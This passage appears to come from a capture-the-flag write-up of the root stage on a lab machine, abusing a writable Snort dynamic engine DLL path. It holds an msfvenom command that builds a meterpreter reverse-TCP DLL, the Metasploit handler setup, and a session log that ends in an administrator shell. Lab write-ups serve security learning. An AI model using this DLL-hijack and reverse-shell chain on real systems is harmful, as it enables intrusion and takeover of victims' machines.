 - I think the DLL is loaded from `C:\Snort\lib\snort_dynamicpreprocessor\`

```text
###################################################
# Step #4: Configure dynamic loaded libraries.
# For more information, see Snort Manual, Configuring Snort - Dynamic Modules
###################################################

# path to dynamic preprocessor libraries
dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor 

# path to base preprocessor engine 
dynamicengine C:\Snort\lib\snort_dynamicengine\sf_engine.dll

# path to dynamic rules libraries
# dynamicdetection directory C:\Snort\lib\snort_dynamicrules

###################################################
# Step #5: Configure preprocessors 
# For more information, see the Snort Manual, Configuring Snort - Preprocessors
###################################################
```

### Root.txt

- Created the DLL with `msfvenom`

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.18 lport=1337 -f dll -o sf_engine.dll
```

- Uploaded the `sf_engine.dll` to `C:\Snort\lib\snort_dynamicpreprocessor`
- Opened the meterpreter session

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 1337
lport => 1337
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.18:1337 

```

- Got a Meterpreter session as `analysis\administrateur`

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.18:1337 
[*] Sending stage (201798 bytes) to 10.10.11.250
[*] Meterpreter session 1 opened (10.10.14.18:1337 -> 10.10.11.250:54518) at 2024-06-01 16:26:29 +1000

meterpreter > shell
Process 11424 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
```